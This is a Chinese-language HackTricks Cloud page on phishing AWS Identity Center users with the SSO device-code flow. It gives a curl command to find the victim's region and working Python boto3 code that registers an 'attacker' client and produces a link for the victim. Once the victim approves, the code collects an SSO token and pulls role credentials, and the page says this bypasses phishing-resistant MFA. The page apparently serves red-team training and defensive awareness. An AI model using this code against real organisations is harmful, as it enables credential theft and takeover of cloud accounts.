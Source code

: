 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## AWS 设备代码钓鱼

最初在 [**这篇博客文章**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) 中提出，可以向使用 AWS SSO 的用户发送一个 **链接**，如果 **用户接受**，攻击者将能够获取一个 **令牌以冒充用户** 并访问用户在 **Identity Center** 中能够访问的所有角色。

为了执行此攻击，前提条件是：

* 受害者需要使用 **Identity Center**
* 攻击者必须知道受害者使用的 **子域名** `<victimsub>.awsapps.com/start`

仅凭上述信息，**攻击者将能够向用户发送一个链接**，如果 **接受**，将授予 **攻击者对 AWS 用户** 账户的访问权限。

### 攻击

1. **查找子域名**

攻击者的第一步是找出受害者公司在其 Identity Center 中使用的子域名。这可以通过 **OSINT** 或 **猜测 + BF** 来完成，因为大多数公司会在这里使用其名称或其名称的变体。

有了这些信息，就可以获取配置 Identity Center 的区域：
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **生成受害者的链接并发送**

运行以下代码以生成 AWS SSO 登录链接，以便受害者可以进行身份验证。\
在演示中，在 Python 控制台中运行此代码，并且不要退出，因为稍后您将需要一些对象来获取令牌：
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
发送生成的链接给受害者，利用你出色的社会工程技巧！

3. **等待受害者接受**

如果受害者**已经登录AWS**，他只需接受授予权限；如果没有，他需要**登录然后接受授予权限**。\
这就是现在提示的样子：

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **获取SSO访问令牌**

如果受害者接受了提示，运行此代码以**生成一个冒充用户的SSO令牌**：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO 访问令牌是 **有效期为 8 小时**。

5. **冒充用户**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### 针对不可钓鱼的 MFA 进行钓鱼

有趣的是，之前的攻击**即使在使用“不可钓鱼的 MFA”（webAuth）的情况下也能奏效**。这是因为之前的**工作流程从未离开所使用的 OAuth 域**。与其他钓鱼攻击不同，用户需要替代登录域，在设备代码工作流程中，**代码由设备已知**，用户即使在不同的机器上也可以登录。如果接受了提示，设备仅凭**知道初始代码**，就能够**为用户检索凭据**。

有关更多信息，请[**查看此帖子**](https://mjg59.dreamwidth.org/62175.html)。

### 自动化工具

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 参考文献

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
